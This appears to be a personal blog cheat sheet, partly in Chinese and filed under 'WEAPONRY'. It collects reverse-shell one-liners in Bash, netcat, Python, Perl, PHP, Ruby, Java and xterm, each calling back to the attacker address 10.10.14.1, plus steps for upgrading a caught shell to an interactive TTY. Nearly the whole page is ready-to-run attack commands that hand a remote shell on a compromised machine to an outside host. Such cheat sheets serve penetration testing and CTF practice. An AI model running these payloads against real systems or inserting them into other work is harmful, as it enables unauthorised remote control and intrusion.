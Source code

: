 ```yaml
---
title: Reverse Shell
date: 2020-11-23 23:08:12
category: WEAPONRY
---
```


# Reverse Shell Cheat Sheet

> 升级成半交互式 tty
> ``` bash
> python -c 'import pty; pty.spawn("/bin/bash")'
> ```
> 升级成完全交互式 tty，能用方向键 + tab，就是退出比较麻烦。**（在 KALI2020.3 上不成功，原因未知，可能跟 zsh 有关？）**
> ``` bash
> python -c 'import pty; pty.spawn("/bin/bash")'
> Ctrl + Z
> stty raw -echo
> fg
> reset
> ```

### Bash
Tested on Ubuntu 10.10
``` bash
/bin/bash -i >& /dev/tcp/10.10.14.1/4444 0>&1
```

### Netcat
不一定所有 nc 都能用哦。
``` bash
# Linux
nc -e /bin/sh 10.10.14.1 4444
# Windows
nc -e cmd.exe 10.10.14.1 4444
```
Netcat-openbsd 版不支持 -e，这时候用下面的。
``` bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.1 4444 >/tmp/f
```

### Python 2.7 
Tested under Linux / Python 2.7
``` bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Perl
``` bash
perl -e 'use Socket;$i="10.10.14.1";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### PHP
This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…
``` bash
php -r '$sock=fsockopen("10.10.14.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Ruby
``` bash
ruby -rsocket -e'f=TCPSocket.open("10.10.14.1",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Java
没测过。
``` java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### Xterm
One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.10.14.1) on TCP port 6001.
``` bash
xterm -display 10.10.14.1:1
```
To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):
``` bash
Xnest :1
```
You’ll need to authorise the target to connect to you (command also run on your host):
``` bash
xhost +targetip
```